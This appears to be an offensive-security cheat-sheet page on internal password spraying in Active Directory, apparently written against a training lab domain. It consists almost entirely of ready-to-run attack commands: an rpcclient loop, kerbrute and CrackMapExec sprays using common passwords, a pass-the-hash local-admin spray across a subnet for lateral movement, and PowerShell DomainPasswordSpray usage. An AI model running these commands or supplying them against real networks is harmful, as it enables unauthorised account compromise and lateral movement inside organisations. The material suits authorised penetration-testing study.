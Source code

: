 # Internal Password Spraying

## From Linux

### Using a Bash one-liner for the Attack

{% code overflow="wrap" %}
```bash
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" $IP | grep Authority; done
```
{% endcode %}

### Kerbrute

{% code overflow="wrap" %}
```bash
kerbrute passwordspray -d inlanefreight.local --dc $IP valid_users.txt  Welcome1
```
{% endcode %}

### Using CrackMapExec & Filtering Logon Failures

```bash
sudo crackmapexec smb $IP -u valid_users.txt -p Password123 | grep +
```

### Local Admin Spraying with CrackMapExec for lateral movement

{% code overflow="wrap" %}
```bash
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```
{% endcode %}

***

## From Windows

### Using DomainPasswordSpray.ps1

```powershell
Import-Module .\DomainPasswordSpray.ps1
```

{% code overflow="wrap" %}
```powershell
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```
{% endcode %}
